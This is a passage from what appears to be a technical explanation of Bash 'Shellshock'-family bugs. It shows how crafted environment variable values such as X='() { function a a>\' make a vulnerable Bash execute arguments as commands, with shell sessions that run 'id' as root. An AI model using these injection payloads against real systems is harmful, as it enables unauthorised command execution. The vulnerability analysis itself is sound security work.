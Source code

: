 The ``() { function a a>\`` part makes a *incomplete* function
definition, in particular
the fragment ``a>\`` will redirect to a unspecified file the output
and Bash will complete the definition with the *next input*.

And here is where the magic happens.

The first ``echo`` will *not* be the command but the name of the file
to redirect the output.

The rest of the input ``echo vuln`` will be interpreted as a full
command: that means that the first argument is converted to
the name of a command.

```shell
$ X='() { function a a>\' bash -c "echo echo vuln"
<...>

$ cat echo
vuln
```



Instead of printing the literal ``"echo vuln"`` string and cat-ing
an inexistent file ``"echo"``,
a vulnerable Bash will execute the first argument and it will redirect
its output to a file named ``"echo"``.

Here is another example.

```shell
$ bash -c 'echo $0 $1 | hd' A B
00000000  41 20 42 0a                                       |A B.|
00000004
```

If the attacker controls ``$0`` and ``$1``, he can trigger the vuln
setting ``$0`` to the command of his desire and ``$1`` to ``#`` to comment out
the pipe (the arguments must be without quotes, ``"$1"`` will not work).

```shell
$ X='() { function a a>\' bash -c "echo id # | hd"; cat echo
<...>
uid=0(root)<...>
```


Another example, a shorter variant with less runes needed:

```shell
$ X='() { (a)=>\' bash -c "echo id"; cat echo
<...>
uid=0(root)<...>
```



### CVE-2014-6278: ``() { _; } >_[$($())] { CMD }``
